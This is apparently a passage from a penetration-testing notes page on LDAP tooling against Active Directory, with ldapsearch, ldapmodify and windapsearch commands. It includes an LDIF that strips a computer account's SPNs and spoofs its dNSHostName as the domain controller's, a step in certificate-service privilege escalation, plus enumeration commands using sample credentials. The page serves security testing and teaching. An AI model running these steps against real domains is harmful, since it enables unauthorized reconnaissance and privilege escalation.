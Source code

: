 ```
$ cat ldapsearch.out | awk '{print $1}' | sort | uniq -c | sort -nr
```


#### ldapmodify

An example of removing SPNs and changing `dNSHostName` (see [dNSHostName Spoofing](/pentest/infrastructure/ad/ad-cs-abuse/dnshostname-spoofing.md)):

```
$ ldapmodify -H ldap://DC01.megacorp.local -Y GSSAPI -f spoof.ldiff
$ ldapsearch -H ldap://DC01.megacorp.local -Y GSSAPI -b "DC=megacorp,DC=local" '(&(objectCategory=computer)(sAMAccountName=fakemachine$))' servicePrincipalName dNSHostName
```

{% code title="spoof.ldiff" %}
```diff
dn: CN=FAKEMACHINE,CN=Computer,DC=megacorp,DC=local
changetype: modify
delete: servicePrincipalName
-
replace: dNSHostName
dNSHostName: dc01.megacorp.local
```
{% endcode %}



### windapsearch

* [https://github.com/ropnop/windapsearch](https://github.com/ropnop/windapsearch)
* [https://github.com/snovvcrash/windapsearch](https://github.com/snovvcrash/windapsearch)

Enumerate domain function functional level with LDAP anonymous bind:

```
$ python3 windapsearch.py --dc-ip 192.168.1.11 -d megacorp.local -u '' --functionality
```

Enumerate users in Protected Users group which are also trusted for unconstrained delegation:

```
$ python3 windapsearch.py --dc-ip 192.168.1.11 -d megacorp.local -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' -m 'Protected Users' --attrs trustedForDelegation
```

Find what OU is the user John Doe part of:

```
$ python3 windapsearch.py --dc-ip 192.168.1.11 -d megacorp.local -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' -U --full | grep distinguishedName | grep j.doe
```

Query LDAP for all domain computer accounts (+ try to resolve their IPs with `-r` flag) and save results into a csv file:

```
$ python3 windapsearch.py --dc-ip 192.168.1.11 -d megacorp.local -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' -C -r | tee ~/ws/enum/all-computers.csv
```
